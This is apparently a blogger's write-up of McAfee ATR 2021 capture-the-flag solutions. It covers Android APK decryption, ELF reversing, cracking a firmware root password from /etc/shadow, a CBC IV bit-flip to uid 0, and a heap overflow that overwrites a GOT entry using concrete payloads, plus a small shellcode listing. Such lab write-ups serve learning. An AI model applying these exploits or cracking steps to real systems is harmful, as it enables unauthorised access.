

Introduction
From February 5th to February 18th, 2021, McAfee's Advanced Threat Research team held a capture the flag (CTF) competition based on one held the year prior for its own employees. The challenges tested teams knowledge on topics ranging from recon, to cryptography, to rf hacking, and more. I had fun solving the challenges and learned a few things along the way. I decided to clean up the notes I had taken during the course of the competition and put them online in hopes they may be of later use.
Mobile Challenge: droid
For this challenge we are given an APK file called PasswordVault, a password manager for Android devices. The application is easily decompiled with jadx. Of particular interest is the AES.java file which has an AES class consisting of three methods: setKey, encrypt, and decrypt.
public static String decrypt(String str, String str2) {
try {
setKey(str2);
Cipher instance = Cipher.getInstance("AES/ECB/PKCS5PADDING");
instance.init(2, secretKey);
return new String(instance.doFinal(Base64.getDecoder().decode(str)));
} catch (Exception e) {
PrintStream printStream = System.out;
printStream.println("Error while decrypting: " + e.toString());
return null;
}
}
From the decryption function, we see that the application is encrypting stored passwords using AES is ECB mode with PKCS5 padding. The PwdContainer.java file appears to have a number of hard-coded passwords stored in an array. When the PwdContainer object is created, it retrieves a parameter called "SECRET" like so
Intent intent = getIntent();
this.pwdDb = (ListView) findViewById(R.id.listView);
ArrayList arrayList = new ArrayList(Arrays.asList("p93hSxPQInWeGPVcmMxewg==", "jGl5hpGvF4MNtCTSNlcJzYkEWaQAdSMwQKERffswFuk=", "ww/vxITH/93Ta/k5u5g1Pw==", "ISZotmRXFSOEmIVzUvv9bw==", "3KrWtdspWYCpVRJkmhbPZA==", "TC4ONjo91AAGhH0+aRYmEA==", "zj5LT5BVsgVjqHC1wZWPQhhXCk5jUilwx+4svDBSRD0=", "aM+aAy8qPDU6PPSe5Hqq3w==", "Gi56D0Jrn54PaZnlmFeaZA==", "BAW5c6F9UZiwdDlwm0udJQ==", "OYEX2V+vXODhONUXrlP+2Q==", "gJiMQqGKTFBQ6wPIVQoHTA==", "wFjm0l2DbL3z+i7Bgpf5l3gBbiHLVJx0++r0j7kB9mc=", "aYzMVpVlQpIAhKSud0AetA==", "a79PD2rXccFkWKLCusG4Lg==", "j8mKBy9MuNTGksZypCrGKg==", "vwu2UHf3gVdtG4lSQd5X5A==", "8BMV5V164qNZJWSqyBZ2MA==", "st3r4csKDHT/alCwUXTgAw==", "2DP0pPvEzadEAuaF08h479K+8csb48hlRghXOi3mw/Y="));
String stringExtra = intent.getStringExtra("SECRET");
for (int i = 0; i < arrayList.size(); i++) {
new String();
this.list.add(AES.decrypt(arrayList.get(i).toString(), stringExtra));
}
This 'secret' value is then given as the key parameter to the AES.decrypt function.
Taking a look at MainActivity, we see that the application presents the user with a password entry prompt. This user-supplied password is checked against a hard-coded string "notthefl@g". If they are equal, the value "notthefl@g" is stored in the "SECRET" value.
public void onClick(View view) {
String obj = MainActivity.this.password.getText().toString();
if (obj.equals("notthefl@g")) {
Intent intent = new Intent(view.getContext(), PwdContainer.class);
intent.putExtra("SECRET", obj);
MainActivity.this.invalid.setVisibility(4);
MainActivity.this.startActivity(intent);
return;
}
MainActivity.this.invalid.setVisibility(0);
}
Thus the key given to AES.decrypt is equal to "notthefl@g". Returning to the AES class, we can see how the decryption key is derived from the given parameter.
public static void setKey(String str) {
try {
key = str.getBytes("UTF-8");
key = MessageDigest.getInstance("SHA-1").digest(key);
key = Arrays.copyOf(key, 16);
secretKey = new SecretKeySpec(key, "AES");
} catch (NoSuchAlgorithmException e) {
e.printStackTrace();
} catch (UnsupportedEncodingException e2) {
e2.printStackTrace();
}
}
The decrypt function calls AES.setKey with the first parameter ("notthefl@g"), which computes the SHA-1 digest of the string. Therefore we can decrypt all the stored passwords by decrypting them with AES-ECB-PKCS5 using the key given by SHA1("notthefl@g").
Reversing #1 Two's Company
We are given a 32-bit Linux ELF executable and asked to understand its workings well enough to create two files that, when given to the program, trigger a victory condition. I used Ghidra to analyze the file. It seems this program makes most of its function calls indirectly by looking up pointers in a table whose base address is held in ebx at call time.
undefined jmp_ebx+0x14()
undefined AL:1
jmp_ebx+0x14 XREF[1]: entry:00011140(c)
000110d0 f3 0f 1e ENDBR32 this is the first function c
fb
000110d4 ff a3 14 JMP dword ptr [EBX + 0x14]
00 00 00
We see above an example of one the indirect function calls, although a number of such functions exist in the executable, each with a different offset from ebx.
The most interesting function is located at 0x0001124d. Early in the function, we can see an indirect call to fopen, opening "file1" in read mode.
0001129b 8d 83 40 LEA EAX,[EBX + 0xffffe040]=>DAT_00012008 = 72h r
e0 ff ff
000112a1 50 PUSH EAX=>DAT_00012008 = 72h r
000112a2 8d 83 42 LEA EAX,[EBX + 0xffffe042]=>s_file1_0001200a = "file1"
e0 ff ff
000112a8 50 PUSH EAX=>s_file1_0001200a = "file1"
000112a9 e8 42 fe CALL jmp_ebx+0x1c undefined jmp_ebx+0x1c()
ff ff
After error checking, a while loop is entered. We see below the while loop as (accurately) decompiled by Ghidra:
Next, if local_34 equals 10 and local_30 equals 5 and local_28 is also 5, then another while loop is executed. Before looking at the second loop, let's understand what this first one is doing since it controls the three values local_34, local_30, and local_28.
This first loop has a conditional that calls jmp_ebx+0x20(iVar), sets iVar3 to the return value, which is then checked for inequality with -1. If one if familiar with C-language file I/O in the UNIX world, then one may suspect this is likely reading or peeking at the file stream and checking if the result is EOF (end-of-file). In this particular case, jmp_ebx+0x20 corresponds to fgetc.
fgetc() reads the next character from stream and returns it as an unsigned char cast to an int, or EOF on end of file or error.
Next, we see that another local variable, iVar4, is set to the value of jmp_ebx+0x18(iVar1), which is the ftell function.
The ftell() function obtains the current value of the file position indicator for the stream pointed to by stream.
The rewind() function returns no value. Upon successful completion, fgetpos(), fseek(), fsetpos() return 0, and ftell() returns the current offset. Otherwise, -1 is returned and errno is set to indicate the error.
This is sufficient to understand what is happening in the first while loop (shown above). The local variable iVar4 refers to the current position within the file stream, while iVar3 refers to the byte found at that position.
The output below shows the proper input to control the first while loop.
~/atrhax/twos-company % xxd file1
00000000: 460a 4c0a 410a 0a0a 4731 F.L.A...G1
Now consider the second while loop.
The program reads input from "file2", iterates through the stream in manner identical to before, and sets three new local variables based on certain conditions as above. Below we see the contents of file2
00000000: 0046 004c 0041 0000 0000 0047 3200 0000 .F.L.A.....G2...
00000010: 0000 0000 0000 0000 0000 0000 0000 ..............
Forensics #3: Not Software, Not Hardware
We're given a non-descript file called McAfee_CTF.bin.
I first opened this file in a hex editor and, noting the string Airlink101 AR670W, decided this was a firmware file. I then ran the file through binwalk to analyze and extracted a SquashFS file system. At this point, I executed `find squashfs | grep flag` and found a file titled flag.enc in the root user's home directory containing base64-encoded text. After decoding, I executed the `file` tool on the output which determined it to be an OpenSSL ciphertext with salted password. The root user's secret directory also contained a README file containing the following text:
I encrypt them using: echo "secret" | openssl enc -aes256 -salt -out file.enc -e -a -pbkdf2 -k 'PASSWORD'
and decrypt them using: openssl enc -aes256 -in file.enc -out file.txt -d -a -pbkdf2
At this point, I grabbed the /etc/passwd and /etc/shadow files and used jtr to crack the password for the root user, which was found to be "P@55w0rd!".
Cryptography #1: Light Switch Crypto
In this challenge we're given some an image depicting the workings of a "3-way lightswitch", along with a Python file in which we're expected to finish the implementation of magic_func whose workings are explained by the previous image.
{kind=link}
We may consider each circuit of the light switch (refer to the image) as a function of two boolean variables , \(s_1\) and \(s_2\) (where 0 = off, 1 = on) , corresponding to the states of the switches one and two, respectively. Let \(C_1\), \(C_2\), and \(C_3\) be circuits one, two, and three, respectively. Translating the rules given in the image into our formalism gives
$$C_1 = \begin{cases} 0 & \text{if}\ s_0 = s_1 = 0\\1 & \text{otherwise} \end{cases}$$
$$C_2 = \begin{cases} 0 & \text{if}\ s_0 = s_1 = 1\\1 & \text{otherwise} \end{cases}$$
$$C_3 = \begin{cases} 1 & \text{if}\ s_0 = s_1 = 1\\0 & \text{otherwise} \end{cases}$$
This is enough information to provide a simple solution. However, it helps to recognize that these functions may be expressed simply in terms of common boolean operators. I.e., circuit \(C_1\) is equivalent to the OR operator, circuit \(C_3\) is equivalent to the AND operator, and \(C_2\) is the NAND operator. Combining the inputs and outputs of the circuits as shown in the reference image produces the solution.
Cryptography #2: IVe seen sites like this before
In this challenge, we are given a link to a server which simply responds with "Current User: unpriv_user1 UID: 40" when visited. The given URL had the parameters "iv=f15188446e6e3167" and "session=bbf6ad986ed574e8949d7b7e9348f38c4d1d93ab85062c3f168b1c82b7279845".
The page source included the following helpful comments:
Changelog
09/15/2018 - Changed from DES to AES-256-CBC after our latest data breach
05/23/2018 - Todd is and idiot and somehow never knows how to login so I have added the encryption IV and the encrypted session to the URL parameters
03/12/2018 - String compare of the users is acting up I found a different way to validate users
02/08/2018 - Moved the default user from root to unprivlaged users. This way only admins can access this page
It is clear that the session parameter is decrypted by the server upon receiving the parameters from the user. This could be demonstrated by modifying the session value to produce a decrpytion error message ("bad decrypt") that the server sent as a response. The contents of the page give us a clue as to what the session parameter might contain: namely a username and a user id value. It's a safe bet that user id 0 is a privileged user. Furthermore, since the page prints the username first and the user id second, one may be led to guess that the user id is contained within the last ciphertext block.
If the user id really is in the last block then, as the last block is XOR'ed with the IV to produce the final plaintext block, we should be able to manipulate its value. Modifying the last byte of the IV produced a change in the displayed uid value in the server response. The value was not obviously predictable, so a simple Python script was written to try all possible values (0 to 255) for the last byte until one producing a uid of 0 was found.
Cryptography #3: Know Your Header
We are given an encrypted executable file along with a Python program used to decrypt it. The decryptor merely XORs a fixed-length key whose length is less than 9 bytes against the ciphertext file. We know that the program is an x86-64 Linux ELF file. Luckily for us, the first few bytes of ELF executables are extremely predictable.
the first 16 bytes of the encrypted file are seen below:
00000000: e040 e49b 960b 14dd 9f05 a8dd 940a 15dd .@..............
we know this is an elf, so many of these bytes are known:
00000000: 7f45 4c46 0201 0100 ...
xoring these bytes together yields the key:
00000000: 9f05 a8dd 940a 15dd
Once the executable was decrypted, it was reverse engineered (see next challenge below).
Reversing #2: Know Your Header
Here we are expected to produce an input to the executable decrypted in the crtyptography #3 challenge (above) that triggers a victory condition.
undefined8 main(int param_1,undefined8 *param_2)
{
int iVar1;
char *__s1;
if (param_1 < 2) {
usage(*param_2);
/* WARNING: Subroutine does not return */
exit(0);
}
__s1 = (char *)transform_password(param_2[1]);
printf("Decoded password: %s\n",__s1);
iVar1 = strcmp(__s1,"good job!");
if (iVar1 == 0) {
print_flag(param_2[1]);
/* WARNING: Subroutine does not return */
exit(1);
}
puts("Invalid password :~( ");
return 0;
}
The handy Ghidra decompilation above shows that argv[1] is fed to transform_password and compared to "good job!".
long transform_password(undefined8 param_1)
{
long in_FS_OFFSET;
int local_28;
int local_24;
long local_20;
long local_18;
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
local_28 = 0;
local_20 = decode_hex(param_1,&local_28,&local_28);
local_24 = 0;
while (local_24 < local_28) {
*(byte *)(local_20 + local_24) = *(byte *)(local_20 + local_24) ^ 0x66;
local_24 = local_24 + 1;
}
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
local_18 = local_20;
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return local_20;
}
So the goal here is to find a hex encoded string S such that transform_password(S) == "good job!". Essentially, transform_password XORs the input with the 1-byte repeating key "\x66". Hence, the password is just "good job!" XOR 66, which is "01090902460c090447" in hex.
Hardware #1: Shack the Secret
A researcher has discovered a file that has been encrypted with AES-128-ECB by an embedded device. The encrypted file has been captured through network analysis and the raw file is called Blob. With no debug ports available on the embedded device, one must extract the encryption key. Luckily, we have captured IC bus traffic while exercising functionality.
We have two files: an encrypted file called "Blob" and an I2C bus dump file called "BusTraffic.logicdata". The logicdata format is apparently used by software made for logic analyzers produced by the Saleae.
I downloaded Saleae Logic 1.2.18 (Logic 2 is seemingly incompatible with the data format used in the challenge) and imported the bus traffic data. On the right-hand side of the window, we see the "Analyzers" tab. Clicking the "+" icon and adding an I2C analyzer with the default settings reveals some information the "Decoded Protocols" panel.

We can see from that the program has correctly decoded the I2C bus traffic, showing a series of one-byte writes eaching ending with an ACK. Taken together, the written bytes form the string "safepasswordcomm". This password is precisely 16 bytes, just long enough for AES-128-ECB. Running the `file` utility on the encrypted file reveals that it is in OpenSSL's salted format. Thus the file may be decrypted with the following command-line invocation `openssl aes-128-ecb -d -in blob -out decrypted_blob`.
Exploitation #1: A Winning Attitude
This binary has a function named "winner" which is never executed. Your task is to find a vulnerability in the binary and leverage it to execute "winner". When "winner" is executed the flag will be sent to you.
The link above is running the executable and you can connect to it with netcat. Please use it to retrieve the flag after you get your exploit working on the binary.
We're given a 32-bit Linux application (with ASLR disabled) and we're expected to find a way to call a function called "winner". I analyzed the file in Ghidra (an excellent tool) and tried to make sense of the "main" function, which is the primary interesting function and a bulk of the application. Immediately the usage of strcpy stood out to me. The program reads 1024 bytes of input from stdin two different times, with two different destinations each time.
After each read, strcpy is called, copying the data just read from stdin into an 8-byte heap allocated buffer. After that, the read buffer is filled with zeros. Finally puts is called to print out a string saying "Yay you printed some text!". After some experimentation, I was able to get a crash in the __strcpy_ssse3, a function internal to libc used by strcpy by putting 1024 'a' characters into stdin. Analyzing the coredump shows that the crash happened at
> 0xf7d44803 <__strcpy_ssse3+5891>: mov %ax,(%edx)
0xf7d44806 <__strcpy_ssse3+5894>: mov 0x2(%ecx),%al
0xf7d44809 <__strcpy_ssse3+5897>: mov %al,0x2(%edx)
0xf7d4480c <__strcpy_ssse3+5900>: mov %edx,%eax
0xf7d4480e <__strcpy_ssse3+5902>: ret
where eax was 0x41410a41 and edx was 0x41414141. This demonstrated the possibility of a byte-writing primitive.
As it happens, the area of memory where the global offset table is held is writable. The goal now is to attempt to control strcpy in order to overwrite a GOT entry with the address of the "winner" function (0x08049427). The GOT entry for the puts function, located at 0x0804c030, is a prime target to be written to.
While working on this challenge I learned about pwndbg, a GDB plugin that "makes debugging with GDB suck less, with a focus on features needed by low-level software developers, hardware hackers, reverse-engineers and exploit developers."
pwndbg has some handy features such as a nicely formatted stack view and gotplt, which displays the global offset table:
pwndbg> gotplt
0x804c00c: read@got.plt
0x804c010: printf@got.plt
0x804c014: free@got.plt
0x804c018: fclose@got.plt
0x804c01c: rewind@got.plt
0x804c020: fseek@got.plt
0x804c024: fread@got.plt
0x804c028: strcpy@got.plt
0x804c02c: malloc@got.plt
0x804c030: puts@got.plt
0x804c034: __libc_start_main@got.plt
0x804c038: ftell@got.plt
0x804c03c: setvbuf@got.plt
0x804c040: fopen@got.plt
0x804c044: memset@got.plt
0x804c048: calloc@got.plt
Let's analyze the execution when the following payload is piped to the program:
atrhax/winning_attitude % xxd input
00000000: 9090 9090 9090 9090 9090 9090 9090 9090 ................
00000010: 9090 9090
This payload may be written in Pythonic style as "\x90"*20.
The first strcpy call is located at 0x08049591
Prior to execution of the strcpy function for the first time, the stack is arranged like so:
pwndbg> stack
00:0000│ esp 0xffffccd0 —▸ 0x804d1b0 ◂— 0x0
01:0004│ 0xffffccd4 —▸ 0xffffcce8 ◂— 0x90909090
02:0008│ 0xffffccd8 ◂— 0x400
03:000c│ 0xffffccdc ◂— 0x0
04:0010│ 0xffffcce0 —▸ 0xffffcd08 ◂— 0x0
05:0014│ 0xffffcce4 ◂— 0x33bfcd2
06:0018│ edx 0xffffcce8 ◂— 0x90909090
Here, the top of the stack (esp) is the destination argument for strcpy.
Now, while still at the first strcpy, we examine the destination buffer's contents before and after the call.
Before:
pwndbg> x/8x 0x804d1b0
0x804d1b0: 0x00000000 0x00000000 0x00000000 0x00000011
0x804d1c0: 0x00000002 0x0804d1d0 0x00000000 0x00000011
After:
pwndbg> x/8x 0x804d1b0
0x804d1b0: 0x90909090 0x90909090 0x90909090 0x90909090
0x804d1c0: 0x90909090 0x0804d100 0x00000000 0x00000011
We can see that the first strcpy call added a trailing zero, overwriting the last byte of the address located at 0x804d1c4.
Breaking the second strcpy at0x080495ac, I was able to verify the address at 0x0804d1c4 had come to makes it way to 0xffffccd0 acting as a strcpy argument.
To prove this, consider the payload "\x90"*20 + "\xef\xbe\xad\xde" + "\x00". The trailing null tells strcpy to stop copying, this way we don't trash the GOT (or whatever), turning library calls into segfaults.
Breaking on the second strcpy again and examining the stack we see
00:0000│ esp 0xffffcd20 ◂— 0xdeadbeef
01:0004│ 0xffffcd24 —▸ 0xffffcd38 ◂— 0x0
02:0008│ 0xffffcd28 ◂— 0x400
03:000c│ 0xffffcd2c ◂— 0x0
04:0010│ 0xffffcd30 —▸ 0xffffcd58 ◂— 0x0
05:0014│ 0xffffcd34 ◂— 0x33bfcd2
06:0018│ edx 0xffffcd38 ◂— 0x0
Now we can use whatever the second read receives to write into that address. In this case, we want to write to the address in the GOT corresponding to the "puts" function with the address of the "winner" function. The first thought I had was to try the payload "\x90" + puts + "\x00" + winner +"\x00", where puts is "\x30\xc0\x04\x08" and winner is "\x27\x94\x04\x08". The problem with this payload is that the read function reads 1024 bytes each time regardless of null bytes. The following payload accounts for that issue: "\x90"*20 + puts + "\x00"*1000 + winner + "\x00".
Let's examine the action of the winning payload. Pausing at the second strcpy and examining the stack one more, we see
pwndbg> stack
00:0000│ esp 0xffffcd20 —▸ 0x804c030 (puts@got.plt) —▸ 0x80490d0 ◂— endbr32
01:0004│ 0xffffcd24 —▸ 0xffffcd38 —▸ 0x8049427 (winner) ◂— endbr32
02:0008│ 0xffffcd28 ◂— 0x400
03:000c│ 0xffffcd2c ◂— 0x0
04:0010│ 0xffffcd30 —▸ 0xffffcd58 ◂— 0x0
05:0014│ 0xffffcd34 ◂— 0x33bfcd2
06:0018│ edx 0xffffcd38 —▸ 0x8049427 (winner) ◂— endbr32
07:001c│ 0xffffcd3c ◂— 0x0
Examining the value of puts entry in the GOT, we can see that it has been succesfully overwritten with the address of winner.
pwndbg> x 0x804c030
0x804c030 : 0x08049427
Exploitation #2: Shellcode Hollaback
After days of reversing a certain x86-64 target running Linux, you're finally able to execute up to 64 bytes of shellcode. You also know the location of a function (0x5555555551b5) that will store a username and password. You can then use these credentials to retrieve the flag. Thankfully, symbols were left in so you know that the function's signature is:
void store_credentials(const char* username, const char* password)
Using this information, construct some shellcode that will help you retrieve the flag. Best of luck!
This boils down to correctly calling a function. We know its an x86-64 Linux machine, so the SYSV64 ABI must be observed. This means, in particular, that function arguments are passed in the rdi, rsi, rdx, rcx, r8, r9 registers (additional values are passed on the stack in reverse order).
One thing to keep in mind is that the username and password strings have to be stored in memory somewhere. This can be easily achieved by pushing the bytes corresponding to the string onto the stack and using the stack pointer register as a pointer to the string. I chose to make the username and password the same ("root") as a further simplification.
The shellcode is shown below in NASM syntax:
bits 64
mov rax, 'root'
push rax
mov rsi, rsp
mov rdi, rsp
mov rbx, 5555555551b5h
call rbx
The shellcode ('shell.s') was to be submitted as a hex string, so I compiled it and formatted it with the command
nasm shell.s && sed -r #39;s/(.{2})/\\x\1/g;s/,$//' <<< `hexdump -e '16/1 "%02.2x"' shell`